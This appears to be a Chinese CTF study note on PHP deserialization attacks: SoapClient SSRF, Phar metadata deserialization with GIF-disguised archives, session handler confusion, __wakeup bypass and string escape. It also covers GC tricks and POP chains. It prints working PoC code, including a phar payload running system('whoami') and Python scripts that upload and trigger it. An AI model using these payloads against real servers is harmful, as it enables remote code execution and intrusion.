>   参考：[PHP 原生类的利用小结](https://whoamianony.top/2021/03/10/Web%E5%AE%89%E5%85%A8/PHP%20%E5%8E%9F%E7%94%9F%E7%B1%BB%E7%9A%84%E5%88%A9%E7%94%A8%E5%B0%8F%E7%BB%93/)

在反序列化过程中，有时没有有用的自定义类的利用；**但php在开启一些服务时，会启动一些类(原生类)**，我们就可以利用原生类来达到目的  

#### 1.4.1 SoapClient--原生类(__call方法)

>   PHP 的内置类 SoapClient 是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端。

```php
SoapClient {
	/* 方法 */
	public __construct ( string|null $wsdl , array $options = [] )
	public __call ( string $name , array $args ) : mixed
	public __doRequest ( string $request , string $location , string $action , int $version , bool $oneWay = false ) : string|null
	public __getCookies ( ) : array
	public __getFunctions ( ) : array|null
	public __getLastRequest ( ) : string|null
	public __getLastRequestHeaders ( ) : string|null
	public __getLastResponse ( ) : string|null
	public __getLastResponseHeaders ( ) : string|null
	public __getTypes ( ) : array|null
	public __setCookie ( string $name , string|null $value = null ) : void
	public __setLocation ( string $location = "" ) : string|null
	public __setSoapHeaders ( SoapHeader|array|null $headers = null ) : bool
	public __soapCall ( string $name , array $args , array|null $options = null , SoapHeader|array|null $inputHeaders = null , array &$outputHeaders = null ) : mixed
}
```

该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求;

**实验一下**

```php
<?php
//phpinfo();
$a = new SoapClient(null,array('location'=>'http://127.0.0.1:9001/变量', 'uri'=>'http://127.0.0.1:9001','user_agent'=>'123'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->abc();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
    
运行上面的php，然后用nc监听9001端口   
nc -l 9001
得到下面的数据，我们可以通过对User-agent的修改，通过\n来修改后续报文，来实现ssrf
    
  
    
POST /变量 HTTP/1.1
Host: 127.0.0.1:9001
Connection: Keep-Alive
User-Agent: 123
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1:9001#abc"
Content-Length: 384

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://127.0.0.1:9001" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:abc/></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

#### 1.4.2 Error/Exception--原生类(__toString方法)

```php
Error implements Throwable {  //php7引入
	/* 属性 */
	protected string $message ;
	protected int $code ;
	protected string $file ;
	protected int $line ;
	/* 方法 */
	public __construct ( string $message = "" , int $code = 0 , Throwable $previous = null )
	final public getMessage ( ) : string
	final public getPrevious ( ) : Throwable
	final public getCode ( ) : mixed
	final public getFile ( ) : string
	final public getLine ( ) : int
	final public getTrace ( ) : array
	final public getTraceAsString ( ) : string
	public __toString ( ) : string
	final private __clone ( ) : void
}
Exception {   //php5引入
	/* 属性 */
	protected string $message ;
	protected int $code ;
	protected string $file ;
	protected int $line ;
	/* 方法 */
	public __construct ( string $message = "" , int $code = 0 , Throwable $previous = null )
	final public getMessage ( ) : string
	final public getPrevious ( ) : Throwable
	final public getCode ( ) : mixed
	final public getFile ( ) : string
	final public getLine ( ) : int
	final public getTrace ( ) : array
	final public getTraceAsString ( ) : string
	public __toString ( ) : string
	final private __clone ( ) : void
}
```

在Error和Exception这两个PHP原生类中内只有 `__toString` 方法，这个方法用于将异常或错误对象转换为字符串，**这个方法会返回错误信息和行数**,我们可以调用该方法实现xss，与哈希比较绕过

**实验一下**

```php
<?php
$a = new Error("payload1",1);$b=new Exception("payload2",1);
$c = new Exception("<script>alert('xss')</script>");
echo $a;
echo "\n";
echo $b;
echo "\n";
echo $c;
?>

  
Error: payload1 in /www/admin/localhost_80/wwwroot/1.php:2
Stack trace:
#0 {main}
Exception: payload2 in /www/admin/localhost_80/wwwroot/1.php:2
Stack trace:
#0 {main}
Exception: <script>alert('xss')</script> in /www/admin/localhost_80/wwwroot/1.php:3
Stack trace:
#0 {main}
```

由此

*   通过调用该类完成xss攻击
*   调用该类`__toString`时，只会返回第一个参数，而hash比较时调用此方法可以完成hash比较绕过(可以写这题练练[极客大挑战2020_Greatphp](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202020]Greatphp))

.....

这些是与序列化有关的原生类，关于更多原生类的使用，可以看看[PHP 原生类的利用小结](https://whoamianony.top/2021/03/10/Web%E5%AE%89%E5%85%A8/PHP%20%E5%8E%9F%E7%94%9F%E7%B1%BB%E7%9A%84%E5%88%A9%E7%94%A8%E5%B0%8F%E7%BB%93/)

### 1.5 Phar反序列化

>   参考：[利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)

在伪协议的学习后，知道phar协议是用来访问压缩文件中的子文件，但**该流封装器会将用户自定义的meta-data以序列化形式储存在phar文件中。当受影响的文件操作函数调用phar文件时，会自动反序列化meta-data内的内容**

#### 1.5.1 phar文件结构

>   详细格式可见：[PHP: Phar - Manual](https://www.php.net/manual/zh/book.phar.php)

phar文件由4部分组成**stub**，**a manifest describing the contents**，**file contents**，**signature**

这是一个phar文件



```php
<?php __HALT_COMPILER(); ?>  //stub，一个标志，格式为xxx<?php xxx; __HALT_COMPILER();?>，前面内容不限，但必须以__HALT_COMPILER();?>来结尾，否则phar扩展将无法识别这个文件为phar文件。
L                 O:10:"TestObject":0:{}   test.txt   盍轪   ~囟     //a manifest describing the contents，每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data
test     //file contents，压缩文件的内容
籤U?i?X呟?9s   GBMB  //(可空)signature，签名，放在文件末尾
```

生成一个phar文件，**要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件**

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");  //删除同名物件
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //以字符串的形式添加一个文件到 phar 档案,两个变量分别为路径与内容
    $phar->stopBuffering();//签名自动计算
?>
```

#### 1.5.2 利用条件

1.  phar文件要能够上传到服务器端。
2.  要有可用的魔术方法作为“跳板”。
3.  文件操作函数的参数可控，且`:`、`/`、`phar`等特殊字符没有被过滤。

#### 1.5.3 影响函数

>   参考：[Phar与Stream Wrapper造成PHP RCE的深入挖掘 - zsx's Blog](https://blog.zsxsoft.com/post/38)

有序列化数据必然会有反序列化操作，php一大部分的文件系统函数在通过`phar://`伪协议解析phar文件时，都会将meta-data进行反序列化，以下是经创宇测试过，会受影响的函数：



初次之外，还有

*   exif
    *   `exif_thumbnail`
    *   `exif_imagetype`

*   gd
    *   `imageloadfont`
    *   `imagecreatefrom***`

*   hash
    *   `hash_hmac_file`
    *   `hash_file`
    *   `hash_update_file`
    *   `md5_file`
    *   `sha1_file`

*   file / url
    *   `get_meta_tags`
    *   `get_headers`

*   standard
    *   `getimagesize`
    *   `getimagesizefromstring`

*   zip

```php
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
```

*   Bzip / Gzip

    当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过

    ```php
    $z = 'compress.bzip2://phar:///home/sx/test.phar/test.txt';
    $z = 'compress.zlib://phar:///home/sx/test.phar/test.txt';
    ```

*   Postgres数据库

    ```php
    <?php
    $pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
    @$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
    ```

    `pgsqlCopyToFile`和`pg_trace`同样也是能使用的，只是它们需要开启phar的写功能。

*   MySQL

    `LOAD DATA LOCAL INFILE`也会触发这个`php_stream_open_wrapper`

    ```php
    //配置一下mysqld:
    //[mysqld]
    //local-infile=1
    //secure_file_priv=""
    
    
    <?php
    class A {
        public $s = '';
        public function __wakeup () {
            system($this->s);
        }
    }
    $m = mysqli_init();
    mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
    $s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
    $p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
    ```

*   ...

#### 1.5.4 绕过方式

*   将phar伪造成其他格式的文件，绕过上传检测

    php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();?>`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过**添加任意的文件头+修改后缀名的方式**将phar文件伪装成其他格式的文件。

    ```php
    //伪造成gif文件
    <?php
        class TestObject {
        }
    
        @unlink("phar.phar");
        $phar = new Phar("phar.phar");
        $phar->startBuffering();
        $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
        $o = new TestObject();
        $phar->setMetadata($o); //将自定义meta-data存入manifest
        $phar->addFromString("test.txt", "test"); //添加要压缩的文件
        //签名自动计算
        $phar->stopBuffering();
    ?>
    ```

*   当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://等绕过

    ```php
    compress.bzip://phar:///test.phar/test.txt
    compress.bzip2://phar:///test.phar/test.txt
    compress.zlib://phar:///home/sx/test.phar/test.txt
    php://filter/resource=phar:///test.phar/test.txt
    ```

    当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
    `php://filter/read=convert.base64-encode/resource=phar://phar.phar`
    
*   当环境中过滤了phar文件中的内容时

    在这篇文章中：https://guokeya.github.io/post/uxwHLckwx/，我们可以得知，当一个`phar`文件被`gzip、bzip2、tar、zip`等操作过后，依然可以利用`phar://`协议来正常读取，但文件被操作过后就全变成乱码了，利用这个就可以绕过过滤

    Xenny师傅的一个脚本，NSSCTF prize_p1

    ```php
    import requests
    import gzip
    import re
    
    url = 'http://xxx.nss.ctfer.vip:9080/'
    
    file = open("./ars2.phar", "rb") #打开文件
    file_out = gzip.open("./ars2.zip", "wb+")#创建压缩文件对象
    file_out.writelines(file)
    file_out.close()
    file.close()
    
    requests.post(
        url,
        params={
            0: 'O:1:"A":{s:6:"config";s:1:"w";}'
        },
        data={
            0: open('./ars2.zip', 'rb').read()
        }
    ) # 写入
    
    res = requests.post(
        url,
        params={
            0: 'O:1:"A":1:{s:6:"config";s:1:"r";}'
        },
        data={
            0: 'phar://tmp/a.txt'
        }
    ) # 触发
    
    flag = re.compile('(NSSCTF\{.+?\})').findall(res.text)[0]
    print(flag)
    ```

### 1.6 SESSION反序列化

#### 1.6.1 Session的介绍

*   **什么是Session**

    Session是一种记录客户状态的机制,保存在服务器上;客户端浏览器访问服务器的时候，服务器把客户端信息以某种形式记录在服务器上。这就是Session。客户端浏览器再次访问时只需要从该Session中查找该客户的状态就可以了。有点类似于Cookie的作用  

    当第一次访问网站时，Seesion_start()函数就会创建一个唯一的Session ID，并自动通过HTTP的响应头，将这个Session ID保存到客户端Cookie中。同时，也在服务器端创建一个以Session ID命名的文件，用于保存这个用户的会话信息。当同一个用户再次访问这个网站时，也会自动通过HTTP的请求头将Cookie中保存的Seesion ID再携带过来，这时Session_start()函数就不会再去分配一个新的Session ID，而是在服务器的硬盘中去寻找和这个Session ID同名的Session文件，将这之前为这个用户保存的会话信息读出，在当前脚本中应用，达到跟踪这个用户的目的。

*   **session 的存储机制**  

    php中的session中的内容并不是放在内存中的，而是以文件的方式来存储的，存储方式就是由配置项session.save_handler来进行确定的，默认是以文件的方式存储。
     存储的文件是以`"sess_"+"PHPSESSID"`来进行命名的

    ,PHPSESSID值一般在cookie处设置

    `cookie:PHPSESSID=flag`  
    
    ```php
    //生成session
    <?php
    ini_set('session.serialize_handler', 'php_serialize');//php_serialize为处理器，不同处理器的Session文件内容储存方式是不同
    session_start();
    $_SESSION['name'] = 'spoock';
    var_dump($_SESSION);
    ?>
    ```
    
    对于不同的处理器，其Session文件内容储存方式是不同的
    
    | 处理器                      | 对应的存储格式                                               |                                                              |
    | --------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
    | php                         | 键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值          | `name|s:6:"spoock";`                                         |
    | php_binary                  | 键名的长度对应的 ASCII 字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值 | `names:6:"spoock"; `      由于`name`的长度是4，4在ASCII表中对应的就是`EOT` |
    | php_serialize  (php>=5.5.4) | 经过 serialize() 函数反序列处理的数组                        | `a:1:{s:4:"name";s:6:"spoock";}`    `a:1`是使用php_serialize进行序列话都会加上。同时使用php_serialize会将session中的key和value都会进行序列化 |
    
    

#### 1.6.2 Session的利用

>   PHP中的Session的实现是没有的问题，危害主要是由于程序员的Session使用不当而引起的。
>   如果在PHP在反序列化存储的$_SESSION数据时使用的引擎和序列化使用的引擎不一样，会导致数据无法正确地反序列化。通过精心构造的数据包，就可以绕过程序的验证或者是执行一些系统的方法

*   环境配置  

    在php.ini中存在四项配置项：

    ```
    session.save_path=""   --设置session的存储路径
    session.save_handler="" --设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)
    session.auto_start   boolen --指定会话模块是否在请求开始时启动一个会话,默认为0不启动
    session.serialize_handler   string --定义用来序列化/反序列化的处理器名字。默认使用php
    ```

*   使用不同的引擎来处理session文件且$_SESSION变量直接可控

    看这两个php

    ```php
    // 1.php
    <?php
    ini_set('session.serialize_handler', 'php_serialize');
    session_start();
    $_SESSION['name'] = $_GET['a'];
    var_dump($_SESSION);
    ?>
    //2.php
    <?php
    ini_set('session.serialize_handler', 'php');
    session_start();
    class test{
        public $name;
        function __wakeup(){
            echo $this->name;
        }
    }
    ?>
    ```

    分析：

    上面1.php与2.php分别使用不同的处理器  

    于是可以在1.php中传入参数`|O:4:"test":1:{s:4:"name";s:1:"a";}`；写入到session文件中，`a:1:{s:4:"name";s:35:"|O:4:"test":1:{s:4:"name";s:1:"a";}";}`  

    然后在再打开2.php（因为是同一客户端，所以短时间内，session为同一文件；也可自行伪造）；由于是php处理器，所以会将`a:1:{s:4:"name";s:35:"`作为键名，将`O:4:"test":1:{s:4:"name";s:1:"a";}`作为反序列处理的值（前面的`";}`闭合后将后面的";}丢弃的）；  最后session文件为`a:1:{s:4:"name";s:35:"|O:4:"test":1:{s:4:"name";s:1:"a";}`

    调用到test类的__wakeup方法

*   题目

    原理就这些，可以写写题了，

    [安恒杯_web3的文件下载](./反序列化漏洞/安恒web3.zip) 

    [jarvisoj-web的一道SESSION反序列化题目](http://web.jarvisoj.com:32784/index.php)  该题除了考察session的序列化，还考察了文件包含中的session.upload_progress函数的利用

    wp参考

    [安恒杯wp](https://www.cnblogs.com/puluotiya/p/5425850.html)

    [jarvisoj-web的一道SESSION反序列化题目](https://www.cnblogs.com/hello-py/articles/13502328.html)

### 1.7 反序列化的一些Trick

#### 1.7.1 php7.1+反序列化对类属性不敏感

如果变量前是protected，序列化结果会在变量名前加上`\x00*\x00`  

但在**特定版本7.1以上**则对于类属性不敏感，可以直接访问私有变量

```
<?php
class test{
    protected $a;
    public function  __destruct(){
        echo $this->a;
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');//可以发现直接输出abc
?>
```

#### 1.7.2 绕过__wakeup(CVE-2016-7124)

*   (CVE-2016-7124)漏洞

    版本： PHP5 < 5.6.25  PHP7 < 7.0.10

    利用方式：`序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行`

*   `__wakeup`本身为自定义的对象序列化方式；我们可以直接使用C的自定义序列化格式来绕过`__wakeup`

    版本：PHP5以上(仅测试了5.6.9与7.3.4)

    ```php
    <?php
    class Hint {
    
    public function __wakeup(){
        $this->hint = "no hint";
    }
    
    public function __destruct(){
        if(!$this->hint){
            echo "success";
        } 
        else{
            echo "fail";
        } 
    }
    }
    unserialize('C:4:"Hint":0:{}');
    unserialize('O:4:"Hint":1:{}');
    //两者均可绕过__wakeup
    ?>
    ```

#### 1.7.3 绕过部分正则

`preg_match('/^O:\d+/')`匹配序列化字符串是否是对象字符串开头

*   `+`绕过，对序列化长度的值加上`+`不影响反序列化结果

*   数组绕过,将序列化的值作为数组的值再次序列化，来绕过检测

    ```php
    <?php
    class test{
        public function __wakeup(){
            echo "success";
        }
    }
    $data = $_GET["data"];
    if($data){
        if (preg_match('/^O:\d+/',$data)){
            die('you lose!');
        }
        else
        unserialize($data);
    }
    else die('lose');
    ?>
    //data=O:%2B4:"test":0:{}    +号绕过
    
    // serialize(array(new test()));
    //data=a:1:{i:0;O:4:"test":0:{}}    数组绕过
    ```

#### 1.7.3 16进制绕过字符的过滤

```
O:4:"test":1:{s:1:"a";s:3:"a";}
可以写成
O:4:"test":1:{S:1:"\61";s:3:"a";}
表示字符类型的s大写时，会被当成16进制解析。
```

#### 1.7.4 PHP反序列化字符逃逸

*   **特点**

    ```
    *php序列化后的字符串经过了替换或者修改，导致字符串长度发生变化。
    *总是先将序列化的值进行修改，在将其反序列化。
    ```

    其本质上就是优先级的问题

    以这个为例`O:4:"test":1:{s:1:"a";s:3:"a";}`

    `s:1`的长度计算优先级高于`""`闭合的优先级；  

    所以当出现对php序列化后的字符串修改后，可以通过构造来写入数据

*   **替换修改后导致序列化字符串变长**

    ```php
    <?php
    function filter($str){
        return str_replace('b', 'bb', $str);
    }
    class A{
        public $name='a';
        public $pass='1';
    }
    $a=new A();
    $a->name = $_GET["name"];
    $b=filter(serialize($a)); //对序列化的值进行修改
    $c=unserialize($b);
    if($c->pass === "flag")
    echo "success";
    else
    echo "fail";
    ?>
    //bbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:4:"flag";}}
    ```

    分析：  

    `O:1:"A":2:{s:4:"name";s:52:"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:4:"flag";}}";s:4:"pass";s:1:"1";}`

    利用其替换修改后导致序列化字符串变长，从而将变长的字符当作name的值  

    使后面构造的`;s:4:"pass";s:4:"flag";`作为序列化的值使用  

    而`}`与前面的`{`闭合将之后的值舍去

*   **替换之后导致序列化字符串变短**

    和变长差不多，同样是构造；利用变短，将后续的值覆盖；使构造的值逃逸；

    来一题

    ```php
    <?php
    function filter($str){
        return str_replace('hh', 'h', $str);
    }
    class A{
        public $a='1';
        public $b='2';
        public $c='3';
    }
    $a1=new A();
    echo(serialize($a1));
    $a1->a = $_GET["a"];
    $a1->c = $_GET["c"];
    $b1=filter(serialize($a1)); //对序列化的值进行修改
    $c1=unserialize($b1);
    echo($b1);
    var_dump($c1);
    if($c1->b === "flag")
    echo "success";
    else
    echo "fail";
    ?>
    //a=hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh
    //c=";s:1:"b";s:4:"flag";s:1:"c";s:1:"3
    ```

    就不解析了

### 1.8 GC回收机制

#### 1.8.1 基础知识

*   **GC概念**

    GC是PHP垃圾回收机制(Garbage Collector)的简称  

    在PHP中，当没有任何变量指向这个对象时，这个对象就会成为垃圾，然后在内存中进行销毁，以防止内存溢出；当一个PHP线程结束时，当前占用的所有内存空间都会被销毁，当前程序中所有对象同时被销毁

*   **__destruct /unset **

    __destruct() 析构函数，是在垃圾对象被回收时执行。 
     unset 销毁的是指向对象的变量，而不是这个对象。   

*   **引用计数基本知识**

    摘取[引用计数基本知识](https://www.php.net/manual/zh/features.gc.refcounting-basics.php)                        

    每个php变量存在一个叫"zval"的变量容器中。一个zval变量容器，除了包含变量的类型和值，还包括两个字节的额外信息。第一个是"is_ref"，是个bool值，用来标识这个变量是否是属于引用集合(reference  set)。通过这个字节，php引擎才能把普通变量和引用变量区分开来，由于php允许用户通过使用&来使用自定义引用，zval变量容器中还有一个内部引用计数机制，来优化内存使用。第二个额外字节是"refcount"，用以表示指向这个zval变量容器的变量(也称符号即symbol)个数。所有的符号存在一个符号表中，其中每个符号都有作用域(scope)，那些主脚本(比如：通过浏览器请求的的脚本)和每个函数或者方法也都有作用域。

    ```php
    <?php 
    $a = "new string"; 
    xdebug_debug_zval('a'); 
    ?> 
    输出
    //a: (refcount=1, is_ref=0)='new string'
    ```

    **概括而言，就是当refcount为0(无引用时)，将其数据回收**，具体算法见[回收周期(Collecting Cycles)](https://www.php.net/manual/zh/features.gc.collecting-cycles.php)                        

#### 1.8.2  GC回收机制和序列化的碰撞

详细的分析过程，见[如何攻破PHP的垃圾回收和反序列化机制（上） - 安全客，安全资讯平台](https://www.anquanke.com/post/id/149421)也可以去看**英文原文**

*   **基础篇**

    由于反序列化过程允许一遍又一遍地传递相同的索引。一旦重新使用数组的索引，旧元素的引用计数器就会递减。在反序列化过程中将会调用zend_hash_update，它将调用旧元素的析构函数（Destructor）

    ```php
    <?php
    highlight_file(__FILE__);
    class errorr{
    public $rce;
    public function __destruct(){
        echo 'this is destruct\n';
        echo 'successful\n';
    }
    }
    $A = unserialize($_GET['a']);
    throw new Exception("错误");
    ?>
    ```

    这个思路很简单，就是调用errorr的`__destruct`的方法。但`__destruct`方法是在该对象被回收时调用，而exception会中断该进程对该对象的销毁，无法调用`__destruct`，于是需要绕过`throw new Exception("错误");`,于是利用GC回收来调用。

    *   利用GC回收——数组回收

        需要反序列化一个数组，然后再利用第一个索引，来触发GC

        ```php
        $a = new errorr();
        $b = serialize(array($a,$a));
        ```

        也可以这样

        ```php
        $a = new errorr(); 
        $n = NULL;
        $m = array(0=>$a,1=>$n);
        echo serialize($m);
        //a:2:{i:0;O:6:"errorr":1:{s:3:"rce";N;}i:1;N;}
        //将其修改为a:2:{i:0;O:6:"errorr":1:{s:3:"rce";N;}i:0;N;}   将第二个索引值换成0,应该是覆盖索引，从而类没有被赋值
        ```

    *   利用GC回收——破坏序列化结构

        ```php
        $b = new errorr;
        echo serialize($b);
        //O:6:"errorr":1:{s:3:"rce";N;}
        //O:6:"errorr":1:{s:3:"rce";N;   ，将末尾的}去掉，从而返回为空，直接进入回收中，但反序列化的结构在回收前仍存在，具体如何实现的还没弄清
        ```

    *   利用GC回收——`__wakeup`方法

        在学习这块时，发现2021年浙江省赛决赛的safepop中，发现不用绕过仍然可以有`__destruct`,然后和学长讨论后，发现关键在于`__wakaup`，当反序列化时存在`__wakeup()`时，会将其在反序列完成后直接进入回收中，会赋值给变量一个空数组；具体怎么实现的，脑子不够用

        ```php
        <?php
        //highlight_file(__FILE__);
        class errorr{
        public $rce;
        public function __destruct(){
            echo 'this is destruct\n';
            echo 'successful\n';
        }
        public function __wakeup(){
            $this->func = '';
            echo("Don't serialize me");
        }
        }
        //$b = new errorr;
        //echo serialize($b);
        $A = unserialize('a:2:{i:0;O:6:"errorr":1:{s:3:"rce";N;}i:0;N;}');
        var_dump($A);
        /*array(1) {
          [0] =>
          NULL
        }*/
        throw new Exception("错误");
        ```

*   **进阶篇**

    GC回收在phar反序列化的利用，转载[浅析GC回收机制与phar反序列化 | Arsene.Tang](http://arsenetang.com/2021/11/28/浅析GC回收机制与phar反序列化/)

    ```php
    <?php
    highlight_file(__FILE__);
    //error_reporting(0);
    class Test{
        public $code;
        public function __destruct(){
            eval($this -> code);
        }
    }
    $data = $_POST['data'];
    file_put_contents("a.txt", $data);
    $filename = $_GET['filename'];
    echo file_get_contents($filename);
    throw new Error("这不合理");
    ?>
    ```

    *   利用python转发phar文件

        phar文件中有许多无法表示的字符，可以用python转发文件将phar文件完整发送

        ```php
        <?php  //phar文件生成
        class Test{
            public $code = "system('whoami');";
        }
        $a[] = new Test();
        $a[] = 1;
        $phar = new Phar("arsenetang.phar");
        $phar -> startBuffering();
        $phar -> setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
        $phar -> setMetadata($a);
        $phar -> addFromString("test.txt","aaaaaaatest");
        $phar -> stopBuffering();
        ?>
        ```

        ```python
        import requests#python转发
        
        url = 'http://x.xx.xx.xxx:7676/test.php'
        res = requests.post(
            url,
            params={
                'filename': 'phar://a.txt'
            },
            data={
                0: open('./arsenetang.phar', 'rb').read()
            }
        ) # 写入并触发
        print(res.text)
        ```

    *   这里利用数组修改，直接将phar文件中后面的索引值改为0即`a:2:{i:0;O:4:"Test":1:{s:4:"code";s:17:"system('whoami');";}i:0;i:1;}`

    *   利用脚本给修改后的文件，重新写上签名，保证phar文件的完整性

        ```python
        import gzip
        from hashlib import sha1
        
        file = open("arsenetang.phar","rb").read()
        
        text = file[:-28]  #读取开始到末尾除签名外内容
        
        last = file[-8:]   #读取最后8位的GBMB和签名flag
        
        new_file = text+sha1(text).digest() + last  #生成新的文件内容，主要是此时sha1正确了。
        
        open("arsenetang2.phar","wb").write(new_file)
        
        ```

### 1.9 Autoloading与（反）序列化威胁与 Composer

#### 1.9.1 基础知识

*   PHP只能unserialize()那些定义了的类

*   传统的PHP要求应用程序导入每个类中的所有类文件，这样就意味着每个PHP文件需要一列长长的include或require方法，**而在当前主流的PHP框架中，都采用了Autoloading自动加载类来完成这样繁重的工作。**在完善简化了类之间调用的功能的同时，也为序列化漏洞造成了便捷。

*   Autoloading能实现自动加载当前文件下的类的环境

*   Composer：
    *   Composer是PHP用来管理依赖（dependency）关系的工具。你可以在自己的项目中声明所依赖的外部工具库（libraries），Composer       会帮你安装这些依赖的库文件。类似maven。
    *   经常搭建框架环境的同学应该对这个非常熟悉了，无论是搭建一个新的Laravel还是一个新的Symfony，安装步骤中总有一步是通过Composer来进行安装。

    *   比如在安装Laravel的时候，执行composer       global require "laravel/installer"就可以搭建成以下目录结构的环境：

其中已经将环境所需的依赖库文件配置完毕，正是因为Composer与Autuoloading的有效结合，才构成了完整的POP数据流。

#### 1.9.2 反序列化漏洞的挖掘：

-   概述
    -   通过上面对Composer的介绍，我们可以看出，Composer所拉取的依赖库文件是一个框架的基础。
    -   而Composer默认是从Packagist来下载依赖库的。所以我们挖掘漏洞的思路就可以从依赖库文件入手。
    -   目前总结出来两种大的趋势，还有一种猜想：
        -   1.从可能存在漏洞的依赖库文件入手
        -   2.从应用的代码框架的逻辑上入手
        -   3.从PHP语言本身漏洞入手

*   依赖库：

    -   以下这些依赖库，准确来说并不能说是依赖库的问题，只能说这些依赖库存在我们想要的文件读写或者代码执行的功能。而引用这些依赖库的应用在引用时并没有完善的过滤，从而产生漏洞。

    -   寻找依赖库漏洞的方法，可以说是简单粗暴：

        -   首先在依赖库中使用RIPS或grep全局搜索__wakeup()和__destruct()
        -   从最流行的库开始，跟进每个类，查看是否存在我们可以利用的组件（可被漏洞利用的操作）
        -   手动验证，并构建POP链

        -   利用易受攻击的方式部署应用程序和POP组件，通过自动加载类来生成poc及测试漏洞。
        -   以下为一些存在可利用组件的依赖库：
            1.   任意写
                 monolog/monolog(<1.11.0)
                 guzzlehttp/guzzle
                 guzzle/guzzle
            2.   任意删除
                 swiftmailer/swiftmailer
            3.   拒绝式服务(proc_terminate())
                 symfony/process

-   步骤：

    -   找到程序unserialize点，即反序列化从哪开始。
    -   寻找POP组件的最好方式，就是直接看composer.json文件，该文件中写明了应用需要使用的库。

    -   **寻找可以利用的POP组件：**

        -   **下载依赖库：**

            -   首先我们先在vm中写一个composer.json文件：

                ```json
                {
                
                  "require": {
                
                    "guzzlehttp/guzzle": "6.0.2"  
                
                  }
                
                }
                ```

        *   接下来安装Composer：curl -sS [https:*//getcomposer.org/installer*](https://getcomposer.org/installer) *| php*
        
        
        *   然后根据composer.json来安装依赖库：php composer.phar install

-   **审计依赖库：**
-   **全局搜索：__destruct()和__wakeup()**

    
-   **一个一个文件看：**

-   我们现在想要做的事情是怎么控制SetCookie类的data变量），那就要看源类是怎么引入了SetCookie对象。

-   查看该ROP类的构造函数：发现可以传入filename变量

-   查看父类CookieJar

    -   发现setCookie函数会传入一个SetCookie类。
    -   查看SetCookie类的构造方法：
    -   根据setcookie函数，发现会校验SetCookie对象的数据，根据里面的限制构造就行。
    -   最后设置payload在data数组参数的dome变量里面

-   poc：

-   漏洞环境：

-   

-   写入webshell成功

-   

#### 1.9.3 反序列化工具PHPGCC

-   生成这些通用型漏洞的测试payload:[phpggc](https://github.com/ambionics/phpggc)

    -   cms在引用某些依赖库时，可能存在（反）序列化漏洞。那么是否有工具可以生成这些通用型漏洞的测试向量呢？
    -   当然是存在的。在github上我们找到了[PHPggc](https://github.com/ambionics/phpggc)这个工具，它可以快速的生成主流框架的序列化测试向量。
    -   运行phpggc 的条件是php      cli的版本>=5.6

    -   **目录结构：**

        ```json
        |-- gadgetchains  // 相应框架存在漏洞的类以及漏洞利用代码
        
        |-- lib       // 框架调度及核心代码
        
        |-- phpggc     // 入口
        
        |-- README.md
        ```

- 通过./phpggc -l     可以列出所有可利用的组件，其中每条都包括组件的名称、版本范围、可利用其进行的操作(文件读写或RCE)、攻击向量(例如__destruct)

### CTF中的反序列化题目

### 反序列漏洞实例

### 	反序列化漏洞修复

- 


## python反序列化漏洞

## java反序列化

- java代码审计里面有
